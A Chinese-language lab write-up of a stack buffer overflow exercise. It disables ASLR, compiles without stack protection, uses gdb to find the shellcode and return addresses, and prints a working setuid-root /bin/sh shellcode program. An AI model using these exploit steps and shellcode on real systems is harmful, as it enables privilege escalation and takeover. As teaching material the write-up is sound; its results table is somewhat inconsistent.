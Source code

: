 首先需要确定的是攻击地址，取消地址随机化并调试stack文件。

```shell
sudo sysctl -w kernel.randomize_va_space=0
gcc -Wall -g -o stack stack.c -fno-stack-protector -z execstack -m32
gdb stack -q
```

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131109729.png">

可以看出stack.c中str字符数组的地址是0xffffce97，由于strcpy的复制，使得exploit.c中buffer数组内容的地址也是0xffffce97。在exploit.c中，将shellcode的内容放在距buffer偏移量为100的地方，所以可知内存中存储shellcode的地址为0xffffce97+0x64(100)=0xffffcefb。

查看bof函数的汇编代码，确定返回地址。

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131114431.png">

从上图中看到lea -0x14(%ebp), %edx，可知buffer存储在ebp-0x14的位置，即buffer距ebp的距离为0x14，根据栈帧分析可知return address位置为0x14+4（十进制）=0x18。

关键代码：

```c
strcpy(buffer+0x18,"\xfb\xce\xff\xff");
```

运行代码即可发起攻击。

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131132904.png">

> 为stack程序设置setuid和修改文件所有者为root依旧不能获得root权限（已修改/bin/sh—>zsh），多次尝试后放弃。

| ASLR | 栈保护机制 | 栈可执行 | 栈不可执行 | 攻击是否成功 |
| ---- | ---------- | -------- | ---------- | ------------ |
| 否   | 否         | 否       | 是         | 是           |
| 否   | 否         | 否       | 是         | 否           |
| 是   | 是         | 否       | 是         | 否           |

**下述shellcode在设置setuid和修改文件所有者为root后可以成功获得root权限**

```c
 //shellcode_test.c
  2
  3 #include <stdio.h>
  4 #include <string.h>
  5
  6 int main(){
  7         char shellcode[] = "\x6a\x17\x58\x31\xdb\xcd\x80"
  8 "\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";
  9
 10         void (*fp)(void);
 11         fp = (void*)shellcode;
 12         fp();
 13
 14         return 0;
 15 }
```
